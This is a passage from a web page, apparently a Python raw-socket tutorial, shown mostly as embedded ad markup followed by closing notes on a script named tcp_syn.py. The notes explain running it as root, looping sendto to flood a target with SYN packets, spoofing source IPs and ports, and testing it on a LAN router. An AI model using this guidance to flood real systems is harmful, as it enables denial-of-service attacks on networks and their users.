npg2fmofJ2WoHgclvMgBh103FqsMdHakB6YCg6ZVakPG2tp2jB3TuO9B0HcB_P59ozYUznQIGoT9mn2OeCmFRGQHa_E4u48V_LssjCGIBdnNxS4AqGXhQOiAYFn4DUdy20sAVXGudJqJGQ_Fv5tcnXioURbqWpRHMKnqSOEaVSg52K3Gp3oaZt6WgW96F8wXfHxaKCeAF303tDHrWrJGjXwwwKSEQzVq5KHm2VROXBcqtlFQ_x126IzyMkHCLg/wp/YbTyrgAPOvUGuS3WAAuSIS4Dpfz-7eKjOO0OSw&quot;)</script><div class=&quot;GoogleActiveViewInnerContainer&quot;style=&quot;left:0px;top:0px;width:100%;height:100%;position:fixed;pointer-events:none;z-index:-9999;&quot;></div><div style=&quot;display:inline&quot;class=&quot;GoogleActiveViewElement&quot;data-google-av-cxn=&quot;https://pagead2.googlesyndication.com/pcs/activeview?xai=AKAOjstOoI9cJSf72wsbqmLOWgL8YuPB-U53knYSrPldO5KtFsV1CdbGuajFN4XupjL8hGGA-E_WzVdTAcLMTFWSeZzF5Q&amp;amp;sig=Cg0ArKJSzEjA7jsoaNz3EAE&quot;data-google-av-adk=&quot;3625921992&quot;data-google-av-metadata=&quot;la=0&amp;amp;xdi=0&amp;amp;&quot;data-google-av-override=&quot;-1&quot;data-google-av-dm=&quot;2&quot;data-google-av-immediate data-google-av-aid=&quot;0&quot;data-google-av-naid=&quot;1&quot;data-google-av-slift=&quot;&quot;data-google-av-cpmav=&quot;&quot;data-google-av-btr=&quot;&quot;data-google-av-itpl=&quot;20&quot;data-google-av-rs=&quot;4&quot;data-google-av-flags=&quot;[&amp;quot;x%278440&amp;#39;9efotm(&amp;amp;753374%2bejvf/%27844&amp;gt;&amp;#39;9wuvb$&amp;amp;56533&amp;gt;!=|vqc)!273794&amp;amp;&amp;lt;qqvb/%&amp;lt;1735020!=nehu`/!364=5051!9abk{a($160210:3&amp;amp;&amp;lt;cbotf+*0150034:%2bejvf/%72;17613!=efdwa*&amp;#39;76463;21$?ebkpb$&amp;amp;0366717&amp;gt;*&amp;gt;bgipf+!3=712363%9aihwc)!7202&amp;lt;217&amp;#39;9efotm(&amp;amp;20061;48&amp;amp;&amp;gt;`dopb/%&amp;lt;1707200!=8(&amp;amp;2005575?&amp;amp;&amp;gt;`dopb/%&amp;lt;1706:21!=nehu`~&amp;quot;]&quot;><script type=&quot;text/javascript&quot; src=&quot;https://pr.ybp.yahoo.com/ab/secure/true/imp/zuOXe3AQYNwRscddFxNzjIonHjdLL8LD9I05RqVVDFwWBWI6FsPkrm9oiDhKpjgAmFSDBfeRhCl7GVK2gJpI8VpgWUGEBkVjvVQCtgZhMPMMKWu6TG6k4FAIRRyK4FkdaUpH8rzrGbQnNyfFANdOqs6qONMowkKLh3MEjuaDK9Ny-qIL01IXTtCVm-s9i-oQ4cKHHa3nbOloQTerSEzO0cAmfhdorXaR4NusA0whxeb1PdjX8-yJSjGEmjxR1fn-JcKCIctyqq7VLpuiz9_h0qCnaGg8vXHjETuezbWMZEQLAuD631l-L6j2VG2laTGO6g0XtLYq4621ssFh5GXUBvt8onr2eqghBPxIf3tHgfMOVXFfoYCc5MLYTa46dtIOSsahdbAeCUmcwzloX3uNmZNvruQNU_GjHaLH2KJzSmqZ9WXNp9d91K6JTByiFApzqbYa2j8f-EW2MuxSR46CiqUoa7OhHZXjZChwy3SbJcZAmYp4rK1N4WIM4Xm1ZM4aN20DENZcHO8YxNEgSuLakSwrOqrFvzG2Key0g-o1CpyQyZYcyTDGEKlGdDGph9dTUFgixuQT0RFwelHJ5IAVKkN7rtChyOVWAbSrQ5HJPD_K1iyIltzdUZ3TdRjIyd44s6f89wisMj2HJHLaLYd60OdOO0GkqpKZ5yCktCAZ-RPfWGUcFttHSxj-YD_whj70UVEGfOJIprQbsMGpzogK3lh8wdvtTssT8qKW1nj2N5G5T-F5uXCYC1R3pv13NUtCAYXZBqUZQhweHFxsIl66bc1EVTk_NivUCjVqz7x5lFijlyUiRAiYCLXYqOb2xpIfk2SlLWPEqlo_NSmitIO3izZH9rxpk8ZGVBZRA52rQd51TUuyVAD7Kg6t1x9uElsEqB8GiPqYWRKHw2hVBWFH_PCGkhnuOhQM3vt_B4IZX3fURQ9ulFqOwg0IqXprqCjTcTAkNfQrrOjJYqf9EXsOAPfQu6tp1LFxJakczyO26Onl8EVqq6YehA16Vu_dngrPpSIJNj6OzgwSsBHx_yBhAXRYRvdnMAdy0jfnidRTlcdVVrOLoAKs-ZjJrGyWcdETl6tG3UzRV-2C_j6iNCiaPPmAz6cOBbjQYVRblUVhhX9X__yeNB385O_zMmVZjLuegaWcmujVFL-Dxh5LHOwqxLS1izXVaZqRak1wp0yAjQjrDaBfS86mhjrUNJCNFz4qBs5-aq1LuetL2ylw8uWJ52tIU9OwU_tSlMUFzioxrD-lsx1Y7_z6gBVDrMfdLG09eGe-t41YQ73KkuUnDLFGV2KP_7a0Zf7q1WSMwfjrIfdGQKKkKu66Pap3pw2V70K06gQdz7QXZNW58qFP9Q0z3xuHIpnpoEBRNc52ceIWuC_tdb7zGiL-IuT5QJG-TPnuss1B2DQZzReqkCPYSKhc5RUjnpg2fmofJ2WoHgclvMgBh103FqsMdHakB6YCg6ZVakPG2tp2jB3TuO9B0HcB_P59ozYUznQIGoT9mn2OeCmFRGQHa_E4u48V_LssjCGIBdnNxS4AqGXhQOiAYFn4DUdy20sAVXGudJqJGQ_Fv5tcnXioURbqWpRHMKnqSOEaVSg52K3Gp3oaZt6WgW96F8wXfHxaKCeAF303tDHrWrJGjXwwwKSEQzVq5KHm2VROXBcqtlFQ_x126IzyMkHCLg/wp/YbTyrgAPOvUGuS3WAAuSIS4Dpfz-7eKjOO0OSw/pclick/https://adclick.g.doubleclick.net/aclk?sa=L&amp;ai=Cy2dGrvK0YfX1PNbb5OUPoaSuqAX6gNyrXLqBoaKJAcCNtwEQASAAYM2Q7ICsA4IBF2NhLXB1Yi0yMDQ5OTQ4MTgwMDc5MjY0yAEJ4AIAqAMBqgSwAk_QSl4ADIYj6DDpkLtnV0h4JrYi_OgXmL7tFM1EVeYpzjwQDGG4D2qvc7uctkyCJmFbU0VvO53Qf31oc_SCY0pjNx-RXIr8IfuRKlzY31Y3xw10Zj9oMnTfAoTuYZsE8z4qndqMvP1xtHEvIVAGznJp5pDG6uCYdooCMETvKsf7BF2Vhbcf0lYCxHFPL11BnXUFpz4yyCcRO7zBgwqapoPfN2KehNLekqc3B3cYenb-nNqxk_mH_Doq9fwAFNkBEqbUAvfz9R3kfa6cb-T06QrvEbUzqEuY9_IaMUkW-Aaz_OjAvLHXotOO5uXtvPJ1wHeCa2k-IGu4CGUrTI5VjL5faMbuZzYDwLdhOl2841eoMAm_Jxcjk9v_VP-vj7ynCK0vOHPIAwsfVKkQX-Q0SKrgBAGABoyKj7-Qj9rAMaAGIYgHAZAHAqgHpr4bqAeW2BuoB6qbsQKoB9-fsQLYBwDSCAIQAvoLAggBgAwB0BUBgBcB&amp;num=1&amp;cid=CAMSeQClSFh3u5G9EGihkUwwRDax8PrFNhI2RQZEMFXimxmXu9VYmzEDRwT-6P-27OClHMC0CCT0Nw4zBy7Gfz049vd8zsiYOgCQrwiZ0jjMwakfk56XllTX986lVFYxRnu5gsMmYrBSEXDAo5b1fzY070LZYRHvZ-3ksoQ&amp;sig=AOD64_2_GrUoiMyYnMkbt2P5WaXYpx9W0Q&amp;client=ca-pub-2049948180079264&amp;adurl=&quot;></script></div><script data-jc=&quot;22&quot; src=&quot;https://tpc.googlesyndication.com/pagead/js/r20211207/r20110914/client/window_focus_fy2019.js&quot; async data-jc-version=&quot;r20211207&quot; data-jcp-url=&quot;https://googleads.g.doubleclick.net/pagead/interaction/?ai=Cy2dGrvK0YfX1PNbb5OUPoaSuqAX6gNyrXLqBoaKJAcCNtwEQASAAYM2Q7ICsA4IBF2NhLXB1Yi0yMDQ5OTQ4MTgwMDc5MjY0yAEJ4AIAqAMBqgSwAk_QSl4ADIYj6DDpkLtnV0h4JrYi_OgXmL7tFM1EVeYpzjwQDGG4D2qvc7uctkyCJmFbU0VvO53Qf31oc_SCY0pjNx-RXIr8IfuRKlzY31Y3xw10Zj9oMnTfAoTuYZsE8z4qndqMvP1xtHEvIVAGznJp5pDG6uCYdooCMETvKsf7BF2Vhbcf0lYCxHFPL11BnXUFpz4yyCcRO7zBgwqapoPfN2KehNLekqc3B3cYenb-nNqxk_mH_Doq9fwAFNkBEqbUAvfz9R3kfa6cb-T06QrvEbUzqEuY9_IaMUkW-Aaz_OjAvLHXotOO5uXtvPJ1wHeCa2k-IGu4CGUrTI5VjL5faMbuZzYDwLdhOl2841eoMAm_Jxcjk9v_VP-vj7ynCK0vOHPIAwsfVKkQX-Q0SKrgBAGABoyKj7-Qj9rAMaAGIYgHAZAHAqgHpr4bqAeW2BuoB6qbsQKoB9-fsQLYBwDSCAIQAvoLAggBgAwB0BUBgBcB&amp;amp;sigh=hlLrsINOGLo&amp;amp;cid=CAQSQgCNIrLM0ttAbp4UZ0muCnlPW9TmR_cUgTGaPuANPHarQhRweERryDXJ9yvqDnH0Ie17PgEv9Uaj0YkJRpkmR_x6Vg&quot; data-jcp-gws-id=&quot;&quot; data-jcp-qem-id=&quot;CPWEu-C03PQCFdYtuQYdIZILVQ&quot;></script><script src=&quot;https://www.googletagservices.com/activeview/js/current/rx_lidar.js?cache=r20110914&quot;></script><script type=&quot;text/javascript&quot;>osdlfm();</script><script data-jc=&quot;23&quot; src=&quot;https://tpc.googlesyndication.com/pagead/js/r20211207/r20110914/client/qs_click_protection_fy2019.js&quot; data-jc-version=&quot;r20211207&quot;></script><script>googqscp.init([[[[null,500,99,2,9,null,null,null,1]]]]);</script><img src=&quot;//www.google.com/ads/measurement/l?ebcid=ALh7CaSapSdjDxNoH3CNrB6hckahFnwlvOXXYU9Ldowm0vvX8JhYAXXCfNm7s4MIXNgSnPioqGNH&quot; style=&quot;display:none;&quot; alt=&quot;&quot;></img><script src=&quot;https://tpc.googlesyndication.com/safeframe/1-0-38/js/ext.js&quot;></script><div style=&quot;bottom:0;right:0;width:728px;height:90px;background:initial !important;position:absolute !important;max-width:100% !important;max-height:100% !important;pointer-events:none !important;image-rendering:pixelated !important;z-index:2147483647;background-image:url('data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAACsAAAAWBAMAAACrl3iAAAAABlBMVEUAAAD+AciWmZzWAAAAAnRSTlMAApidrBQAAAB9SURBVBjTbZABDkAxBEO7G/T+p12UYj+fxSJKHsC/nTT9kwFUlfWcSQcJo9dZKJgqpiub+klvNRw5WZNYWyQ2xtDFjYcEHUkDq0NdEmfd224tm0efidF3wUsCD9Zskxq6VV6Qa11f4ZipuHyzcRDfeyf6mq0uzY+4Lljgob0Q2gWxaO0qUQAAAABJRU5ErkJggg==') !important;&quot;></div><script data-jc=&quot;103&quot; data-jc-version=&quot;r20211207&quot; data-jcp-base_url=&quot;https://googleads.g.doubleclick.net/pagead/conversion/?ai=Cy2dGrvK0YfX1PNbb5OUPoaSuqAX6gNyrXLqBoaKJAcCNtwEQASAAYM2Q7ICsA4IBF2NhLXB1Yi0yMDQ5OTQ4MTgwMDc5MjY0yAEJ4AIAqAMBqgSwAk_QSl4ADIYj6DDpkLtnV0h4JrYi_OgXmL7tFM1EVeYpzjwQDGG4D2qvc7uctkyCJmFbU0VvO53Qf31oc_SCY0pjNx-RXIr8IfuRKlzY31Y3xw10Zj9oMnTfAoTuYZsE8z4qndqMvP1xtHEvIVAGznJp5pDG6uCYdooCMETvKsf7BF2Vhbcf0lYCxHFPL11BnXUFpz4yyCcRO7zBgwqapoPfN2KehNLekqc3B3cYenb-nNqxk_mH_Doq9fwAFNkBEqbUAvfz9R3kfa6cb-T06QrvEbUzqEuY9_IaMUkW-Aaz_OjAvLHXotOO5uXtvPJ1wHeCa2k-IGu4CGUrTI5VjL5faMbuZzYDwLdhOl2841eoMAm_Jxcjk9v_VP-vj7ynCK0vOHPIAwsfVKkQX-Q0SKrgBAGABoyKj7-Qj9rAMaAGIYgHAZAHAqgHpr4bqAeW2BuoB6qbsQKoB9-fsQLYBwDSCAIQAvoLAggBgAwB0BUBgBcB&amp;amp;sigh=hlLrsINOGLo&quot; data-jcp-cpu_label=&quot;heavy_ad_intervention_cpu&quot; data-jcp-net_label=&quot;heavy_ad_intervention_network&quot;>(function(){/*  Copyright The Closure Library Authors. SPDX-License-Identifier: Apache-2.0 */ 'use strict';/*  SPDX-License-Identifier: Apache-2.0 */ const d=function(a,b=null){return b&amp;&amp;b.getAttribute(&quot;data-jc&quot;)===String(a)?b:document.querySelector(`[${&quot;data-jc&quot;}=&quot;${a}&quot;]`)}(103,document.currentScript);if(null==d)throw Error(&quot;JSC not found 103&quot;);const f={},k=d.attributes;for(let a=k.length-1;0<=a;a--){const b=k[a].name;0===b.indexOf(&quot;data-jcp-&quot;)&amp;&amp;(f[b.substring(9)]=k[a].value)} (function(a,b,l){var e=window;a&amp;&amp;b&amp;&amp;l&amp;&amp;e.ReportingObserver&amp;&amp;e.fetch&amp;&amp;(new e.ReportingObserver((c,m)=>{var g,h;c=c[0];&quot;HeavyAdIntervention&quot;===(null===(g=null===c||void 0===c?void 0:c.body)||void 0===g?void 0:g.id)&amp;&amp;(c=0<((null===(h=c.body.message)||void 0===h?void 0:h.indexOf(&quot;network&quot;))||0)?l:b,e.fetch(`${a}&amp;label=${c}`,{keepalive:!0,method:&quot;get&quot;,mode:&quot;no-cors&quot;}),m.disconnect())},{types:[&quot;intervention&quot;],buffered:!0})).observe()})(f.base_url,f.cpu_label,f.net_label);}).call(this);</script></body></html>{&quot;uid&quot;:&quot;2&quot;,&quot;hostPeerName&quot;:&quot;https://www.binarytides.com&quot;,&quot;initialGeometry&quot;:&quot;{\&quot;windowCoords_t\&quot;:0,\&quot;windowCoords_r\&quot;:1366,\&quot;windowCoords_b\&quot;:728,\&quot;windowCoords_l\&quot;:0,\&quot;frameCoords_t\&quot;:3476.625,\&quot;frameCoords_r\&quot;:838.5,\&quot;frameCoords_b\&quot;:3566.625,\&quot;frameCoords_l\&quot;:110.5,\&quot;styleZIndex\&quot;:\&quot;auto\&quot;,\&quot;allowedExpansion_t\&quot;:0,\&quot;allowedExpansion_r\&quot;:0,\&quot;allowedExpansion_b\&quot;:0,\&quot;allowedExpansion_l\&quot;:0,\&quot;xInView\&quot;:0,\&quot;yInView\&quot;:0}&quot;,&quot;permissions&quot;:&quot;{\&quot;expandByOverlay\&quot;:false,\&quot;expandByPush\&quot;:false,\&quot;readCookie\&quot;:false,\&quot;writeCookie\&quot;:false}&quot;,&quot;metadata&quot;:&quot;{\&quot;shared\&quot;:{\&quot;sf_ver\&quot;:\&quot;1-0-38\&quot;,\&quot;ck_on\&quot;:1,\&quot;flash_ver\&quot;:\&quot;0\&quot;}}&quot;,&quot;reportCreativeGeometry&quot;:false,&quot;isDifferentSourceWindow&quot;:false,&quot;goog_safeframe_hlt&quot;:{},&quot;encryptionMode&quot;:null}" scrolling="no" marginwidth="0" marginheight="0" width="728" height="90" data-is-safeframe="true" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" allow="attribution-reporting" role="region" aria-label="Advertisement" tabindex="0" data-google-container-id="2" style="box-sizing: inherit; hyphens: none; margin: 0px 0px 2px; padding: 0px; border: 0px; font: inherit; vertical-align: bottom; max-width: 100%;"></iframe>

The above program has to be run with root privileges. Raw sockets need root privileges. On ubuntu prefix sudo when running the script.

```
$ sudo python tcp_syn.py
```

### Notes

If a firewall like firestarter is running then it might block the syn packets from being delivered. Use a packet sniffer like wireshark to check that the packet was generated and transmitted properly.

Many more things can be added to the above program. Put the sendto in a loop and it would send out huge number of syn packets, flooding the target system.

Also try to change the source ip and source port in each packet in a loop. For this the pseudo header and tcp header checksum needs to be recalculated everytime.

The best thing to try this program on would be your LAN router. If might get disconnected or even restart itself if it is unable to handle a syn flood attack.

CATEGORY: [PYTHON](https://www.binarytides.com/category/programming/sockets/python-sockets-sockets/)**TAGS: [PYTHON](https://www.binarytides.com/tag/python/), [PYTHON SOCKETS](https://www.binarytides.com/tag/python-sockets/), [SOCKET PROGRAMMING](https://www.binarytides.com/tag/socket-programming/), [SYN FLOOD](https://www.binarytides.com/tag/syn-flood/)**